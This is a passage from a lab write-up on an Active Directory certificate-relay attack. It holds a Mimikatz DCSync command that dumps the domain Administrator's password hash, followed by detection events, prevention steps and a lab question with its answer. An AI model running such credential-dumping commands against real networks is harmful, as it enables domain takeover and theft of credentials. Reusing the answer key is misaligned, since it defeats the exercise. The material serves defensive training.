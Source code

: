 > * Successful TGT request confirms we can impersonate DC2.
>
>
>
> #### 5. Perform DCSync with Mimikatz
>
> With the TGT, perform DCSync to dump password hashes:
>
> ```powershell
> .\mimikatz_trunk\x64\mimikatz.exe "lsadump::dcsync /user:Administrator" exit
> ```
>
> * The NTLM hash of Administrator is now available for further attacks.
>
>
>
> ### Detection and Prevention
>
> #### Detection
>
> 1.  **Event 4886** – Certificate request by a user via ADCS relay.
>
>     ```
>     Requester: EAGLE\DC2$
>     Template: DomainController
>     ```
> 2. **Event 4887** – Certificate issuance for relayed request.
> 3. **Event 4768** – TGT requested using certificate from unexpected IP.
> 4. **Event 4624** – Successful login from unexpected IP.
>
> #### Prevention
>
> * Enforce HTTPS on ADCS web enrollment.
> * Regularly scan for relay vulnerabilities using tools like Certify.
> * Monitor for unusual certificate requests and authentications.
>
> **Requester field from Event 4886**
>
> **Q1** Replicate the attack described in this section and view the related 4886 and 4887 logs. Enter the name shown in the Requester field as your answer. (Format: EAGLE....)
>
> **Answer : EAGLE\DC2$**
